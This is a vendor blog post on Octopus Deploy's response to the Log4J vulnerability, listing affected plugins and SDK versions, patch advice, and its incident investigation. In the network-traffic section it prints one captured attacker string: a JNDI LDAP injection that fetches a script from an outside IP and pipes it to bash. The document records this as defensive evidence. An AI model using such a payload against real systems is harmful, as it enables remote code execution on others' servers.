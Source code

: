 ```yaml
---
title: Octopus Deploy's response to Log4J
description: Learn how Octopus Deploy responded to the Log4J vulnerability (CVE-2021-44228).
author: kyle.jackson@octopus.com
visibility: public
published: 2021-12-14-1400
metaImage: blogimage-security.png
bannerImage: blogimage-security.png
bannerImageAlt: Octopus on shield to represent security
isFeatured: false
tags: 
  - Product
  - Trust and Security
---
```


On Thursday, December 9, 2021, Octopus Deploy was made aware of a vulnerability in the Log4J logging utility ([CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228)). We immediately enacted our Security Incident Response Plan to investigate our use of this utility and its impact on our products and infrastructure.

Fortunately, Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected. However, there are some related products that are impacted and require updates.

In this post, we share the results of our investigation and our recommended next steps for customers.

## JetBrains TeamCity plugin for Octopus Deploy

Version 6.1.7 of the JetBrains TeamCity plugin uses version 2.15.0 of Log4J. However, all versions of the plugin before 6.1.7 are using version 2.14.1 of Log4J and could be vulnerable to remote code execution.

### What you need to do

Version 6.1.7 of the Octopus Deploy plugin for TeamCity is available from the marketplace. If you're a TeamCity user, you should be notified of this update through the Web UI and you're strongly encouraged to update.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-12---Octopus-Deploy-TeamCity-Plugin-log4j2-dependency.2306410241.html) for updates.

## Octopus Java SDK

Version 0.0.3 of the Java SDK uses version 2.15.0 of Log4J. However, all versions of the Java SDK before 0.0.3 are using version 2.14.1 of Log4J and could be vulnerable to remote code execution.

### What you need to do

We recommend that customers using the Octopus Java SDK update their SDK version to 0.0.3.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-13---Octopus-Java-Client-SDK-log4j2-dependency.2306475696.html) for updates.

## Octopus Cloud, Octopus Server, and Octopus Tentacle

Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected by this vulnerability. They’re built with the .NET framework and don’t use any ported versions of Log4J.

## Breakdown of all products

| Product | Vulnerable Log4J version used | Vulnerable product versions | Patched product versions |
| ------- | ----------------------------- | --------------------------- | ------------------------ |
| Azure Devops & TFS Extension | No | N/A | N/A |
| Bamboo Add-on | No | N/A | N/A |
| Java SDK | Yes | <= 0.0.2 | 0.0.3 |
| Jenkins Plugin | No | N/A | N/A |
| Octopus CLI | No | N/A | N/A |
| Octopus Cloud | No | N/A | N/A |
| Octopus Server | No | N/A | N/A |
| Octopus Tentacle | No | N/A | N/A |
| TeamCity Plugin | Yes | <= 6.1.5 | 6.1.7 |

## Was Octopus Deploy compromised? 

Our internal infrastructure runs products that were using a vulnerable version of Log4J. However, we invested a significant amount of time after the initial announcement on Thursday, December 9, and we believe Octopus Deploy was not compromised.

While our engineering teams worked to update our affected products, our Security Operations team analyzed our systems to determine if they'd been exploited. The following sections will go further into our approach.

### Reviewing our internal infrastructure

The vast majority of our internal infrastructure is maintained as Infrastructure as Code (IaC). This allowed us to easily identify potentially vulnerable systems and push updates to those systems with minimal intervention.

When we couldn't determine if a system was vulnerable or not, we used known proof of concepts (PoC) to test if a system was vulnerable. This meant we could better mitigate the particular system.

### Reviewing network traffic

We maintain a lot of network data across our infrastructure, which allows us to identify suspicious network behavior that can result in exploitation of our infrastructure. While reviewing the network data, we identified the following:

1. Suspicious activity - We identified suspicious inbound network traffic to our systems including source IPs. However, we didn't identify any malicious outbound traffic which was reassuring.
1. Identifying targeted systems - While analyzing the network data we identified specific systems that were being aggressively targeted. We put extra controls and mitigations around those systems to reduce the risk of exploitation.

Here is a user agent string that was sent to one of our servers (decoded and redacted):

```
${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/(curl -s 45.155.205.233:5874/XXX.XXX.XXX.XXX:443||wget -q -O- 45.155.205.233:5874/XXX.XXX.XXX.XXX:443)|bash}
```
### Reviewing endpoints

Using the information from the network data, we reviewed specific endpoints that we knew had been aggressively targeted and confirmed they hadn't been compromised.

By using an EDR solution on our endpoints, we also closely monitored the endpoints for signs of compromise or potential exploitation. This data (along with other data sets) feeds into our SIEM (Security Incident and Event Management) system so we're alerted in near real-time and can respond accordingly.

Using all these approaches to investigate our infrastructure, we found no evidence of a compromise.

## Conclusion

We're continuing to track updates relating to this vulnerability. We'll provide further updates if there's any risk to our customers or products. 

If you have any questions, please reach out via [support@octopus.com](mailto:support@octopus.com).